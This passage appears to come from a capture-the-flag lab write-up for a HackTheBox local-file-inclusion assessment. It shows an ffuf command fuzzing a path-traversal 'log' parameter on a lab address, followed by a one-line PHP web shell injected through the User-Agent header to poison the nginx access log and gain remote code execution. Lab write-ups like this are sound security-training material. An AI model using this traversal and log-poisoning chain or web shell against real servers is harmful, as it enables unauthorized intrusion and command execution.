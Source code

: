 >By Assessing the admin page discovered in the PHP source code comment, and using the `log` parameter to read files. 
>[LFI + Log Poisoning technique = RCE](https://academy.hackthebox.com/module/23/section/252) to gain remote code execution and find a flag in the / root directory of the file system.  

### Log Poison  

>The FFUF command identified the `nginx.conf` file that indicate the path to the access logs as `/var/log/nginx/access.log`.  

```
ffuf -c -ic -w /usr/share/seclists/Fuzzing/XSS/XSS-With-Context-Jhaddix.txt:FUZZ -u 'http://94.237.49.11:53690/ilf_admin/index.php?log=../../../../../../../..FUZZ' -replay-proxy http://127.0.0.1:8080 -fs 2046
``` 

![LFI-skills-assess-log-path](/images/LFI-skills-assess-log-path.png)  

>In the log we notice the `user-agent` is reflected and stored.
>PHP webshell code inserted as the value of `User-Agent`:  

```
<?php system($_GET['cmd']); ?>
```  

![LFI-skills-assess-log-poison](/images/LFI-skills-assess-log-poison.png)  

